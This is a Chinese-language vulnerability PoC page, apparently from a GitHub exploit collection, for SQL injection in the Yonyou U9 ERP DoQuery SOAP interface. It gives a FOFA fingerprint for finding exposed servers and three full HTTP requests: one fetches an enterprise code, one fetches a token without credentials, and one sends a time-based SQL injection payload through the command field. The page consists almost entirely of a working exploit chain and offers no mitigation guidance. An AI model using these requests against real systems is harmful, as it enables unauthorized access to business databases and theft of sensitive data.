 # 用友U9系统DoQuery接口存在SQL注入

用友u9 `DoQuery` 接口存在SQL注入，攻击者可通过该漏洞获取敏感信息。

## fofa

```yaml
body="logo-u9.png"
```

## poc

**第一步：获取code**

```yaml
POST /U9C/CS/Office/TransWebService.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: 309
SOAPAction: "http://tempuri.org/GetEnterprise"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetEnterprise xmlns="http://tempuri.org/" />
  </soap:Body>
</soap:Envelope>
```

![image-20240730093905712](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407300939798.png)

**第二步：获取token**

```yaml

POST /U9C/CS/Office/TransWebService.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: 345
SOAPAction: "http://tempuri.org/GetToken"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetToken xmlns="http://tempuri.org/">
      <endId>000</endId>
    </GetToken>
  </soap:Body>
</soap:Envelope>
```

![image-20240730093936752](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407300939822.png)

**第三步：SQL注入，token处填入上面获取的**

```yaml
POST /U9C/CS/Office/TransWebService.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: 345
SOAPAction: "http://tempuri.org/DoQuery"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <DoQuery xmlns="http://tempuri.org/">
      <token></token>
	  <command>select 1;waitfor delay '0:0:1' --</command>
    </DoQuery>
  </soap:Body>
</soap:Envelope>
```

![image-20240730094018683](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407300941078.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/FTbXyr8U5pW8RGtgurFV4A